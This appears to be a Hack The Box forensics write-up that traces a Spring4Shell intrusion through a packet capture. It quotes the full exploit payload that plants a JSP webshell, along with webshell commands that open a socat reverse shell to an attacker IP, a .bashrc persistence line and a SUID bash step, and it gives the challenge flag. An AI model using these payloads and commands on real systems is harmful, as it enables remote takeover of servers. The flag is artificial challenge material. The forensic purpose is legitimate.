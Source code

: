 
- Looking for XSS:

  ```text
  http.content_type == "application/x-www-form-urlencoded"
  ```

  Returned 3 packets: 335, 353, and 387.

  Packet #353 is the most interesting, it has a data length of 775:

  ```text
  class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
  ```

- Ran lots of requests with Python:

  ```text
  http.user_agent == "python-requests/2.28.1"
  ```

- The `.jsp` file is a reverse shell:

  ```text
  http.request.uri contains ".jsp"
  ```

- Command execution in packet 416 via JSP:

  ```text
  http://192.168.1.166:8080/e4d1c32a56ca15b3.jsp?cmd=whoami
  ```

  Returned that the user is `root` in packet 418.

  Confirmed additionally in #426/428, which executed and got the response of `id`.

- Installed `socat` on the machine in packet 436:

  ```text
  http://192.168.1.166:8080/e4d1c32a56ca15b3.jsp?cmd=apt%20-y%20install%20socat
  ```

  Confirmed successful in packet 456.

- Ran `socat` in packet 464:

  ```text
  http://192.168.1.166:8080/e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash
  ```

- Following the TCP packets after 464, the commands were:
  - `id`: `uid=0(root) gid=0(root) groups=0(root)`
  - `groups`: `root`
  - `uname -r`: `5.18.0-kali7-amd64`
  - `cat /etc/passwd`:

    ```log
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
    ```
  - `find / -perm -u=s -type f 2>/dev/null`:

    ```log
    /bin/su
    /bin/umount
    /bin/mount
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/bin/newgrp
    /usr/bin/chfn
    /usr/bin/gpasswd
    /usr/bin/passwd
    /usr/bin/chsh
    ```
  - `echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash`
  - `ls -lh`:

    ```log
    total 20K
    drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
    drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
    -rwxrwx--- 1 root root 1.8K Oct  8 00:04 pom.xml
    drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
    drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target
    ```

The flag is the reversed base64 string decoded:

```text
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
